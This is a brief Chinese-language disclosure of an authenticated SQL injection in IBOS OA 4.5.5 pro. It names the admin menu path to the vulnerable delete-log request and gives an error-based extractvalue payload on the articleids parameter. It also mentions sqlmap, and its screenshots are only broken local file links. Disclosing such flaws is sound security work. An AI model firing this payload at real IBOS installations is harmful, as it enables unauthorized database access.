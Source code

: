 ibos oa v4.5.5存在SQL注入漏洞

官方网站： http: [//www.ibos.com.cn/](http://www.ibos.com.cn/)

版本：4.5.5 pro

登录后台。综合办公=>信息公告=>发布信息=>删除信息=>删除日志抓包 报错注入成功

![img](file:///C:\Users\ADMINI~1\AppData\Local\Temp\ksohtml9632\wps6.jpg) 

![img](file:///C:\Users\ADMINI~1\AppData\Local\Temp\ksohtml9632\wps7.jpg) 

 

![img](file:///C:\Users\ADMINI~1\AppData\Local\Temp\ksohtml9632\wps8.jpg) 

Payload：articleids=extractvalue(1,concat(char(126),md5(1404461947)))

Sqlmap：

![img](file:///C:\Users\ADMINI~1\AppData\Local\Temp\ksohtml9632\wps9.jpg)